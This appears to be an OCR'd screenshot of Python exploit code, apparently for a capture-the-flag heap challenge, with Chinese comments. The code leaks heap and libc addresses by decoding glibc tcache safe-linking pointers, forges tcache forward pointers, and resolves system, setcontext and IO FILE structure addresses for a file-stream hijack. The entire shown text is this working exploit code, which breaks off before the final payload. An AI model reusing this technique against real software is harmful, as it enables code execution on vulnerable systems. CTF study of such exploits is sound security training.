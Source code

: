   ```python
   def fd_glibc64(tcache_base,target_addr):
       success("fake_addr==>"+hex(target_addr))
       payload = p64(tcache_base^(target_addr))
       return payload
   
   
   # 泄漏heap地址 和 key
   for i in range(8):
       add(b"aaa")     # 0~7
   
   for i in range(6):
       free(i)         # 0~6
   show(0)
   
   # 解密
   sleep(1)
   p.recv()
   data = p.recv(8)
   addr = (data[4])<<8
   tmp = data[4]
   for i in range(4,0,-1):
       addr += (data[i-1]^tmp)
       addr = addr << 8
       tmp ^=data[i-1]
   tcache_key = addr >> 8
   heap_addr = addr << 4
   success("tcache_key ==>" + hex(tcache_key))
   success("heap_addr ==>" + hex(heap_addr))
   
   # 泄漏libc地址
   free(7)
   free(6)
   show(6)
   
   # 解密
   sleep(1)
   p.recv()
   data = p.recv(8)
   print(data)
   addr = (data[6])<<8
   tmp = data[6]
   for i in range(6,0,-1):
       addr += (data[i-1]^tmp)
       addr = addr << 8
       tmp ^=data[i-1]
   addr = addr >> 8
   libc_base = addr - 0x1E0C00
   
   ld_base = libc_base + 0x1ee000
   success("libc_base ==>" + hex(libc_base))
   #计算__free_hook和system地址
   setcontext_addr    = libc_base + libc.sym["setcontext"] + 61
   system_addr        = libc_base + libc.sym["system"]
   IO_2_1_stdout_addr = libc_base + libc.sym["_IO_2_1_stdout_"]
   IO_list_all_addr   = libc_base + libc.sym["_IO_list_all"]
   IO_wfile_jumps_addr= libc_base + libc.sym["_IO_wfile_jumps"]
   IO_2_1_stderr_addr= libc_base + libc.sym["_IO_2_1_stderr_"]
   
   rtld_global_addr   = ld_base + ld.sym["_rtld_global"]
   # IO_wfile_jumps_addr = libc_base + 0x1E4F80
   
   success("system_addr==>"        + hex(system_addr))
   success("setcontext_addr==>"    + hex(setcontext_addr))
   ```